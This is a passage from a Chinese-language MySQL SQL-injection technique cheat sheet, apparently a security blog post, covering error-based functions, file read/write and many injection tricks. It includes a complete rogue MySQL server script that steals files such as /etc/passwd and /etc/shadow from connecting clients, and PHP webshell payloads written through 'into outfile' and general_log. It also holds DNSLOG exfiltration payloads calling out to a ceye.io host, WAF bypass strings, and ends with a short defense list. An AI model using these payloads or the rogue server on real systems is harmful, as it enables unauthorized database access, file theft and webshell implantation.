| 数据溢出 - BIGINT | 1+~0                                                         | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
| 几何对象          | geometrycollection linestring multipoint multipolygon multilinestring polygon | [?, 5.5.48]     | ✔️     |       |       |      |              | 244               |                     |
| 空间函数 Geohash  | ST_LatFromGeoHash ST_LongFromGeoHash ST_PointFromGeoHash     | [5.7, ?)        |       |       | ✔️     | ✔️    | 128          |                   |                     |
| GTID              | gtid_subset gtid_subtract                                    | [5.6.5, ?)      |       | ✔️     | ✔️     | ✔️    | 200          |                   |                     |
| JSON              | json_*                                                       | [5.7.8, 5.7.11] |       |       | ✔️     |      | 200          |                   |                     |
| UUID              | uuid_to_bin bin_to_uuid                                      | [8.0, ?)        |       |       |       | ✔️    | 128          |                   |                     |
| XPath             | extractvalue updatexml                                       | [5.1.5, ?)      | ✔️     | ✔️     | ✔️     | ✔️    | 32           |                   |                     |

> 摘自——[Mysql 注入基础小结](https://blog.sari3l.com/posts/9622f295/)

## 文件读/写

我们知道Mysql是很灵活的，它支持文件读/写功能。在讲这之前，有必要介绍下什么是`file_priv`和`secure-file-priv`。

简单的说：`file_priv`是对于用户的文件读写权限，若无权限则不能进行文件读写操作，可通过下述payload查询权限。

```
select file_priv from mysql.user where user=$USER host=$HOST;
```

`secure-file-priv`是一个系统变量，对于文件读/写功能进行限制。具体如下：

- 无内容，表示无限制。
- 为NULL，表示禁止文件读/写。
- 为目录名，表示仅允许对特定目录的文件进行读/写。

注：**5.5.53本身及之后的版本默认值为NULL，之前的版本无内容**。

三种方法查看当前`secure-file-priv`的值：

```
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```

修改：

- 通过修改my.ini文件，添加：`secure-file-priv=`
- 启动项添加参数：`mysqld.exe --secure-file-priv=`

### 读

Mysql读取文件通常使用load_file函数，语法如下：

```
select load_file(file_path);
```

第二种读文件的方法：

```
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取服务端文件
```

第三种：

```
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取客户端文件
```

限制：

- 前两种需要`secure-file-priv`无值或为有利目录。
- 都需要知道要读取的文件所在的绝对路径。
- 要读取的文件大小必须小于`max_allowed_packet`所设置的值

#### 低权限读取文件

5.5.53`secure-file-priv=NULL`读文件payload，mysql8测试失败，其他版本自测。

```
drop table mysql.m1;
CREATE TABLE mysql.m1 (code TEXT );
LOAD DATA LOCAL INFILE 'D://1.txt' INTO TABLE mysql.m1 fields terminated by '';
select * from mysql.m1;
```

#### Mysql连接数据库时可读取文件

这个漏洞是mysql的一个特性产生的，是上述的第三种读文件的方法为基础的。

简单描述该漏洞：Mysql客户端在执行`load data local`语句的时，先想mysql服务端发送请求，服务端接收到请求，并返回需要读取的文件地址，客户端接收该地址并进行读取，接着将读取到的内容发送给服务端。用通俗的语言可以描述如下：

> 原本的查询流程为
>
> ```
> 客户端：我要把我的win.ini文件内容插入test表中
> 服务端：好，我要你的win.ini文件内容
> 客户端：win.ini的内容如下....
> ```
>
> 假设服务端由我们控制，把一个正常的流程篡改成如下
>
> ```
> 客户端：我要把我的win.ini文件内容插入test表中
> 服务端：好，我要你的conn.php内容
> 客户端：conn.php的内容如下???
> ```
>
> 例子部分修改自：[CSS-T | Mysql Client 任意文件读取攻击链拓展](https://paper.seebug.org/1112/)

换句话说：`load data local`语句要读取的文件会受到服务端的控制。

其次，在[Mysql官方文档对于`load data local`语句的安全说明](https://dev.mysql.com/doc/refman/8.0/en/load-data-local.html)中有这么一句话:

> A patched server could in fact reply with a file-transfer request to any statement, not just [`LOAD DATA LOCAL`](https://dev.mysql.com/doc/refman/8.0/en/load-data.html), so a more fundamental issue is that clients should not connect to untrusted servers.

意思是：服务器对客户端的文件读取请求实际上是可以返回给客户端发送给服务端的任意语句请求的，不仅仅只是`load data local`语句。

这就会产生什么结果呢？之前讲的例子，将可以变成：

```
客户端：我需要查询test表下的xx内容
服务端：我需要你的conn.php内容
客户端：conn.php的内容如下???
```

可以看到，客户端相当于被攻击者给**半劫持**了。

利用上述的特性，我们通过构造一个恶意的服务端，即可完成上述的过程。

简易恶意服务端代码：

```
#代码摘自：https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 3306
log = logging.getLogger(__name__)
log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
#    '/etc/passwd',
#    '/etc/shadow',
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)

class LastPacket(Exception):
    pass

class OutOfOrder(Exception):
    pass

class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)

class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '3.0.0-Evil_Mysql_Server' + '\0',  # Version
                    #'5.1.66-0+squeeze1' + '\0',
                    '\x36\x00\x00\x00',  # Thread ID
                    'evilsalt' + '\0',  # Salt
                    '\xdf\xf7',  # Capabilities
                    '\x08',  # Collation
                    '\x02\x00',  # Server Status
                    '\0' * 13,  # Unknown
                    'evil2222' + '\0',
                ))
            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    elif packet.payload == '\x00\x01':
                        self.push(None)
                        self.close_when_done()
                    else:
                        raise ValueError()
                else:
                    if self.sub_state == 'File':
                        log.info('-- result')
                        log.info('Result: %r', data)

                        if len(data) == 1:
                            self.push(
                                mysql_packet(packet, '\0\0\0\x02\0\0\0')
                            )
                            raise LastPacket()
                        else:
                            self.set_terminator(3)
                            self.state = 'LEN'
                            self.order = packet.packet_num + 1

                    elif self.sub_state == 'Auth':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    else:
                        log.info('-- else')
                        raise ValueError('Unknown packet')
            except LastPacket:
                log.info('Last packet')
                self.state = 'LEN'
                self.sub_state = None
                self.order = 0
                self.set_terminator(3)
            except OutOfOrder:
                log.warning('Out of order')
                self.push(None)
                self.close_when_done()
        else:
            log.error('Unknown state')
            self.push('None')
            self.close_when_done()

class mysql_listener(asyncore.dispatcher):
    def __init__(self, sock=None):
        asyncore.dispatcher.__init__(self, sock)

        if not sock:
            self.create_socket(socket.AF_INET, socket.SOCK_STREAM)
            self.set_reuse_addr()
            try:
                self.bind(('', PORT))
            except socket.error:
                exit()

            self.listen(5)

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)

z = mysql_listener()
daemonize()
asyncore.loop()
```

需要注意的是：这个过程需要客户端允许使用`load data local`才行，不过这个信息在客户端尝试连接到服务端的数据包中可以找到。


### 写

说完了读文件，那我们来说说mysql的写文件操作。常见的写文件操作如下：

```
select 1,"<?php @assert($_POST['t']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php @assert($_POST['t']);?>" into dumpfile '/var/www/html/1.php';
```

限制：

- `secure-file-priv`无值或为可利用的目录
- 需知道目标目录的绝对目录地址
- 目标目录可写，mysql的权限足够。

#### 日志法

由于mysql在5.5.53版本之后，`secure-file-priv`的值默认为`NULL`，这使得正常读取文件的操作基本不可行。我们这里可以利用mysql生成日志文件的方法来绕过。

mysql日志文件的一些相关设置可以直接通过命令来进行：

```
//请求日志
mysql> set global general_log_file = '/var/www/html/1.php';
mysql> set global general_log = on;
//慢查询日志
mysql> set global slow_query_log_file='/var/www/html/2.php'
mysql> set global slow_query_log=1;
//还有其他很多日志都可以进行利用
...
```

之后我们在让数据库执行满足记录条件的恶意语句即可。

限制：

- 权限够，可以进行日志的设置操作
- 知道目标目录的绝对路径

## DNSLOG带出数据

什么是DNSLOG？简单的说，就是关于特定网站的DNS查询的一份记录表。若A用户对B网站进行访问/请求等操作，首先会去查询B网站的DNS记录，由于B网站是被我们控制的，便可以通过某些方法记录下A用户对于B网站的DNS记录信息。此方法也称为OOB注入。

如何用DNSLOG带出数据？若我们想要查询的数据为：`aabbcc`，那么我们让mysql服务端去请求`aabbcc.evil.com`，通过记录`evil.com`的DNS记录，就可以得到数据：`aabbcc`。

> 
>
> 引自：[Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

payload: `load_file(concat('\\\\',(select user()),'.xxxx.ceye.io\xxxx'))`

应用场景：

- 三大注入无法使用
- 有文件读取权限及`secure-file-priv`无值。
- 不知道网站/目标文件/目标目录的绝对路径
- 目标系统为Windows

推荐平台：[ceye.io](http://ceye.io/)

为什么Windows可用，Linux不行？这里涉及到一个叫UNC的知识点。简单的说，在Windows中，路径以`\\`开头的路径在Windows中被定义为UNC路径，相当于网络硬盘一样的存在，所以我们填写域名的话，Windows会先进行DNS查询。但是对于Linux来说，并没有这一标准，所以DNSLOG在Linux环境不适用。注：payload里的四个`\\\\`中的两个`\`是用来进行转义处理的。

## 二次注入

什么是二次注入？简单的说，就是攻击者构造的恶意payload首先会被服务器存储在数据库中，在之后取出数据库在进行SQL语句拼接时产生的SQL注入问题。

举个例子，某个查询当先登录的用户信息的SQL语句如下：

```
select * from users where username='$_SESSION['username']'
```

登录/注册处的SQL语句都经过了addslashes函数、单引号闭合的处理，且无编码产生的问题。

对于上述举的语句我们可以先注册一个名为`admin' #`的用户名，因为在注册进行了单引号的转义，故我们并不能直接进行insert注入，最终将我们的用户名存储在了服务器中，注意：反斜杠转义掉了单引号，在mysql中得到的数据并没有反斜杠的存在。

在我们进行登录操作的时候，我们用注册的`admin' #`登录系统，并将用户部分数据存储在对于的SESSION中，如`$_SESSION['username']`。

上述的`$_SESSION['username']`并没有经过处理，直接拼接到了SQL语句之中，就会造成SQL注入，最终的语句为：

```
select * from users where username='admin' #'
```

## order by比较盲注

这种方法运用的情况比较极端一些，如布尔盲注时，字符截取/比较限制很严格。例子：

```
select * from users where (select 'r' union select user() order by 1 limit 1)='r'
```

如果能一眼看出原理的话就不需要继续看下去了。

实际上此处是利用了`order by`语句的排序功能来进行判断的。若我们想要查询的数据开头的首字母在字母表的位值比我们判断的值要靠后，则`limit`语句将不会让其输出，那么整个条件将会成立，否之不成立。

利用这种方法可以做到不需要使用`like、rlike、regexp`等匹配语句以及字符操作函数。

再举个例子：

```
select username,flag,password from users where username='$username;'
```

页面回显的字段为：username与password，如何在`union`与`flag`两单词被拦截、无报错信息返回的情况下获取到用户名为`admin`的flag值？

我们前边讲到了无列名注入，通过使用`union`语句来对未知列名进行重命名的形式绕过，还讲过通过使用`join using()`报错注入出列名。但现在，这两种方法都不可以的情况下该如何获取到flag字段的内容？

使用`order by`可轻松盲注出答案。payload：

```
select username,flag,password from users where username='admin' union select 1,'a',3 order by 2
```

与之前的原理相同，通过判断前后两个select语句返回的数据前后顺序来进行盲注。

## 常见函数/符号归类

### 注释符

| 单行注释 | 单行注释             | 单行注释 | 多行(内联)注释 |
| -------- | -------------------- | -------- | -------------- |
| `#`      | `-- x //x为任意字符` | `;%00`   | `/*任意内容*/` |

### 常用运算符

| 运算符 | 说明          | 运算符 | 说明                                |      |            |
| ------ | ------------- | ------ | ----------------------------------- | ---- | ---------- |
| &&     | 与，同and。   | \      | \                                   |      | 或，同or。 |
| !      | 非，同not。   | ~      | 一元比特反转。                      |      |            |
| ^      | 异或，同xor。 | +      | 加，可替代空格，如`select+user()`。 |      |            |

### 系统信息函数

| 函数       | 说明                                                         |
| ---------- | ------------------------------------------------------------ |
| USER()     | 获取当前操作句柄的用户名，同SESSION_USER()、CURRENT_USER()，有时也用SYSTEM_USER()。 |
| DATABASE() | 获取当前选择的数据库名，同SCHEMA()。                         |
| VERSION()  | 获取当前版本信息。                                           |

### 进制转换

| 函数                             | 说明                                                         |
| -------------------------------- | ------------------------------------------------------------ |
| ORD(str)                         | 返回字符串第一个字符的ASCII值。                              |
| OCT(N)                           | 以字符串形式返回 `N` 的八进制数，`N` 是一个BIGINT 型数值，作用相当于`CONV(N,10,8)`。 |
| HEX(N_S)                         | 参数为字符串时，返回 `N_or_S` 的16进制字符串形式，为数字时，返回其16进制数形式。 |
| UNHEX(str)                       | `HEX(str)` 的逆向函数。将参数中的每一对16进制数字都转换为10进制数字，然后再转换成 ASCII 码所对应的字符。 |
| BIN(N)                           | 返回十进制数值 `N` 的二进制数值的字符串表现形式。            |
| ASCII(str)                       | 同`ORD(string)`。                                            |
| CONV(N,from_base,to_base)        | 将数值型参数 `N` 由初始进制 `from_base` 转换为目标进制 `to_base` 的形式并返回。 |
| CHAR(N,... [USING charset_name]) | 将每一个参数 `N` 都解释为整数，返回由这些整数在 ASCII 码中所对应字符所组成的字符串。 |

### 字符截取/拼接

| 函数                         | 说明                                                         |
| ---------------------------- | ------------------------------------------------------------ |
| SUBSTR(str,N_start,N_length) | 对指定字符串进行截取，为SUBSTRING的简单版。                  |
| SUBSTRING()                  | 多种格式`SUBSTRING(str,pos)、SUBSTRING(str FROM pos)、SUBSTRING(str,pos,len)、SUBSTRING(str FROM pos FOR len)`。 |
| RIGHT(str,len)               | 对指定字符串从**最右边**截取指定长度。                       |
| LEFT(str,len)                | 对指定字符串从**最左边**截取指定长度。                       |
| RPAD(str,len,padstr)         | 在 `str` 右方补齐 `len` 位的字符串 `padstr`，返回新字符串。如果 `str` 长度大于 `len`，则返回值的长度将缩减到 `len` 所指定的长度。 |
| LPAD(str,len,padstr)         | 与RPAD相似，在`str`左边补齐。                                |
| MID(str,pos,len)             | 同于 `SUBSTRING(str,pos,len)`。                              |
| INSERT(str,pos,len,newstr)   | 在原始字符串 `str` 中，将自左数第 `pos` 位开始，长度为 `len` 个字符的字符串替换为新字符串 `newstr`，然后返回经过替换后的字符串。`INSERT(str,len,1,0x0)`可当做截取函数。 |
| CONCAT(str1,str2...)         | 函数用于将多个字符串合并为一个字符串                         |
| GROUP_CONCAT(...)            | 返回一个字符串结果，该结果由分组中的值连接组合而成。         |
| MAKE_SET(bits,str1,str2,...) | 根据参数1，返回所输入其他的参数值。可用作布尔盲注，如：`EXP(MAKE_SET((LENGTH(DATABASE())>8)+1,'1','710'))`。 |

### 常见全局变量

| 变量             | 说明          | 变量       | 说明                 |
| ---------------- | ------------- | ---------- | -------------------- |
| @@VERSION        | 返回版本信息  | @@HOSTNAME | 返回安装的计算机名称 |
| @@GLOBAL.VERSION | 同`@@VERSION` | @@BASEDIR  | 返回MYSQL绝对路径    |

PS：查看全部全局变量`SHOW GLOBAL VARIABLES;`。

### 其他常用函数/语句

| 函数/语句                      | 说明                                                         |
| ------------------------------ | ------------------------------------------------------------ |
| LENGTH(str)                    | 返回字符串的长度。                                           |
| PI()                           | 返回π的具体数值。                                            |
| REGEXP "statement"             | 正则匹配数据，返回值为布尔值。                               |
| LIKE "statement"               | 匹配数据，%代表任意内容。返回值为布尔值。                    |
| RLIKE "statement"              | 与regexp相同。                                               |
| LOCATE(substr,str,[pos])       | 返回子字符串第一次出现的位置。                               |
| POSITION(substr IN str)        | 等同于 `LOCATE()`。                                          |
| LOWER(str)                     | 将字符串的大写字母全部转成小写。同：`LCASE(str)`。           |
| UPPER(str)                     | 将字符串的小写字母全部转成大写。同：`UCASE(str)`。           |
| ELT(N,str1,str2,str3,...)      | 与`MAKE_SET(bit,str1,str2...)`类似，根据`N`返回参数值。      |
| NULLIF(expr1,expr2)            | 若expr1与expr2相同，则返回expr1，否则返回NULL。              |
| CHARSET(str)                   | 返回字符串使用的字符集。                                     |
| DECODE(*crypt_str*,*pass_str*) | 使用 pass_str 作为密码，解密加密字符串 crypt_str。加密函数：`ENCODE(str,pass_str)`。 |

## 约束攻击

什么是约束攻击？

仍然是先举个例子：

我们先通过下列语句建立一个用户表

```
CREATE TABLE users(
    username varchar(20),
    password varchar(20)
)
```

注册代码：

```
<?php
$conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
$username = addslashes(@$_POST['username']);
$password = addslashes(@$_POST['password']);
$sql = "select * from users where username = '$username'";
$rs = mysqli_query($conn,$sql);
if($rs->fetch_row()){
    die('账号已注册');
}else{
    $sql2 = "insert into users values('$username','$password')";
    mysqli_query($conn,$sql2);
    die('注册成功');
}
?>
```

登录判断代码：

```
<?php
$conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
$username = addslashes(@$_POST['username']);
$password = addslashes(@$_POST['password']);
$sql = "select * from users where username = '$username' and password='$password';";
$rs = mysqli_query($conn,$sql);
if($rs->fetch_row()){
    $_SESSION['username']=$password;
}else{
    echo "fail";
}
?>
```

在无编码问题，且进行了单引号的处理情况下仍可能发生什么SQL注入问题呢？

我们注意到，前边创建表格的语句限制了username和password的长度最大为25，若我们插入数据超过25，MYSQL会怎样处理呢？答案是MYSQL会截取前边的25个字符进行插入。

而对于`SELECT`查询请求，若查询的数据超过25长度，也不会进行截取操作，这就产生了一个问题。

通常对于注册处的代码来说，需要先判断注册的用户名是否存在，再进行插入数据操作。如我们注册一个`username=admin[25个空格]x&password=123456`的账号，服务器会先查询`admin[25个空格]x`的用户是否存在，若存在，则不能注册。若不存在，则进行插入数据的操作。而此处我们限制了username与password字段长度最大为25，所以我们实际插入的数据为`username=admin[20个空格]&password=123456`。

接着进行登录的时，我们使用：`username=admin&password=123456`进行登录，即可成功登录admin的账号。

防御：

- 给username字段添加unique属性。
- 使用id字段作为判断用户的凭证。
- 插入数据前判断数据长度。

## 堆叠注入

简单的说，由于分号`;`为MYSQL语句的结束符。若在支持多语句执行的情况下，可利用此方法执行其他恶意语句，如`RENAME`、`DROP`等。

注意，通常多语句执行时，若前条语句已返回数据，则之后的语句返回的数据通常无法返回前端页面。建议使用union联合注入，若无法使用联合注入， 可考虑使用`RENAME`关键字，将想要的数据列名/表名更改成返回数据的SQL语句所定义的表/列名 。具体参考：[2019强网杯——随便注Writeup](https://www.ctfwp.com/articals/2019qiangwang.html#随便注)

PHP中堆叠注入的支持情况：

|                    | Mysqli | PDO    | MySQL   |
| ------------------ | ------ | ------ | ------- |
| 引入的PHP版本      | 5.0    | 5.0    | 3.0之前 |
| PHP5.x是否包含     | 是     | 是     | 是      |
| 多语句执行支持情况 | 是     | 大多数 | 否      |

> 引自：[PDO场景下的SQL注入探究](https://xz.aliyun.com/t/3950)

## handler语句代替select查询

> mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

语法结构：

```
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

如：通过handler语句查询users表的内容

```
handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
...
handler yunensec close; #关闭句柄
```

## 一些小Trick

这里跟大家分享一些有意思的Trick，主要在一些CTF题出现，这里也把它记下来，方便复习。

### PHP`/union.+?select/ig`绕过。

在某些题目中，题目禁止union与select同时出现时，会用此正则来判断输入数据。

- 利用点：[PHP正则回溯BUG](https://bugs.php.net/bug.php?id=70699)
- 具体分析文章：[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

> PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限`pcre.backtrack_limit`。若我们输入的数据使得PHP进行回溯且此数超过了规定的回溯上限此数(默认为 100万)，那么正则停止，返回未匹配到数据。

故而我们构造payload：`union/*100万个a，充当垃圾数据*/select`即可绕过正则判断。

一道相关的CTF题：[TetCTF-2020 WP BY MrR3boot](https://github.com/MrR3boot/CTF/tree/master/TetCTF-2020)

### 无列名盲注

前边提到了，在知道表名，不知道列名的情况下，我们可以利用`union`来给未知列名“重命名”，还可以利用报错函数来注入出列名。现在，除了之前的`order by`盲注之外，这里再提一种新的方法，直接通过select进行盲注。

核心payload：`(select 'admin','admin')>(select * from users limit 1)`

子查询之间也可以直接通过`>、<、=`来进行判断。

### UPDATE注入重复字段赋值

即：`UPDATA table_name set field1=new_value,field1=new_value2 [where]`，最终`field1`字段的内容为`new_value2`，可用这个特性来进行UPDATA注入。如：

```
UPDATE table_name set field1=new_value,field1=(select user()) [where]
```

### LIMIT之后的字段数判断

我们都知道若注入点在where子语句之后，判断字段数可以用`order by`或`group by`来进行判断，而`limit`后可以利用 `into @,@` 判断字段数，其中@为mysql临时变量。


## sys系统库

> ```
> #查询所有的库：
> SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
> SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;
> #查询指定库的表（若无则说明此表从未被访问）：
> SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
> SELECT table_name FROM  sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;
> #统计所有访问过的表次数:库名,表名,访问次数
> select table_schema,table_name,sum(io_read_requests+io_write_requests) io from sys.schema_table_statistics group by table_schema,table_name order by io desc;
> #查看所有正在连接的用户详细信息:连接的用户(连接的用户名,连接的ip),当前库,用户状态(Sleep就是空闲),现在在执行的sql语句,上一次执行的sql语句,已经建立连接的时间(秒)
> SELECT user,db,command,current_statement,last_statement,time FROM sys.session;
> #查看所有曾连接数据库的IP,总连接次数
> SELECT host,total_connections FROM sys.host_summary;
> ```
>
> 节选自：[Mysql的奇淫技巧(黑科技)](https://www.t00ls.net/thread-54783-1-1.html)

| 视图->列名                                                   | 说明                                             |
| ------------------------------------------------------------ | ------------------------------------------------ |
| host_summary -> host、total_connections                      | 历史连接IP、对应IP的连接次数                     |
| innodb_buffer_stats_by_schema -> object_schema               | 库名                                             |
| innodb_buffer_stats_by_table -> object_schema、object_name   | 库名、表名(可指定)                               |
| io_global_by_file_by_bytes -> file                           | 路径中包含库名                                   |
| io_global_by_file_by_latency -> file                         | 路径中包含库名                                   |
| processlist -> current_statement、last_statement             | 当前数据库正在执行的语句、该句柄执行的上一条语句 |
| schema_auto_increment_columns -> table_schema、table_name、column_name | 库名、表名、列名                                 |
| schema_index_statistics -> table_schema、table_name          | 库名、表名                                       |
| schema_object_overview -> db                                 | 库名                                             |
| schema_table_statistics -> table_schema、table_name          | 库名、表名                                       |
| schema_table_statistics_with_buffer -> table_schema、table_name | 库名、表名                                       |
| schema_tables_with_full_table_scans -> object_schema、object_name | 库名、表名(全面扫描访问)                         |
| session -> current_statement、last_statement                 | 当前数据库正在执行的语句、该句柄执行的上一条语句 |
| statement_analysis -> query、db                              | 数据库最近执行的请求、对于请求访问的数据库名     |
| statements*with** -> query、db                               | 数据库最近执行的特殊情况的请求、对应请求的数据库 |
| version -> mysql_version                                     | mysql版本信息                                    |
| x$innodb_buffer_stats_by_schema                              | 同innodb_buffer_stats_by_schema                  |
| x$innodb_buffer_stats_by_table                               | 同innodb_buffer_stats_by_table                   |
| x$io_global_by_file_by_bytes                                 | 同io_global_by_file_by_bytes                     |
| ......                                                       | 同......                                         |
| x$schema_flattened_keys -> table_schema、table_name、index_columns | 库名、表名、主键名                               |
| x$ps_schema_table_statistics_io -> table_schema、table_name、count_read | 库名、表名、读取该表的次数                       |

差点忘了，还有mysql数据库也可以查询表名、库名。

```
select table_name from mysql.innodb_table_stats where database_name=database();
select table_name from mysql.innodb_index_stats where database_name=database();
```

# Mysql注入防御

- 单引号闭合可控变量，并进行相应的转义处理
- 尽量使用预编译来执行SQL语句
- 采用白名单机制/完善黑名单
- 安装WAF防护软件
- 拒绝不安全的编码转换，尽量统一编码
- 关闭错误提示

# 结语

可能记得东西有点多导致很多内容都是精简过后的知识，其实本文可以当做字典一样来使用，可能讲得不是很细致，但是却方便我们进行复习，回想起脑海中的知识。文章花费了大量的笔墨在记录许多与Mysql注入相关的Trick，故而可能会显得比较杂乱，没有得到一个比较好的整理，可能对于不太了解Mysql注入的同学不太友好，望谅解。

# 参考

- [【PHP代码审计】入门之路——第二篇-宽字节注入](https://xz.aliyun.com/t/1719)
- [MySQL注入技巧](https://wooyun.js.org/drops/MySQL注入技巧.html)
- [Mysql 注入基础小结](https://blog.sari3l.com/posts/9622f295/)
- [Mysql的奇淫技巧(黑科技)](https://www.t00ls.net/thread-54783-1-1.html)
- [Read MySQL Client's File](https://lightless.me/archives/read-mysql-client-file.html)
- [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)
- [从安全角度深入理解MySQL编码转换机制](https://www.freebuf.com/articles/web/154932.html)
- [mysql sys Schema Object Index](https://dev.mysql.com/doc/refman/8.0/en/sys-schema-object-index.html)


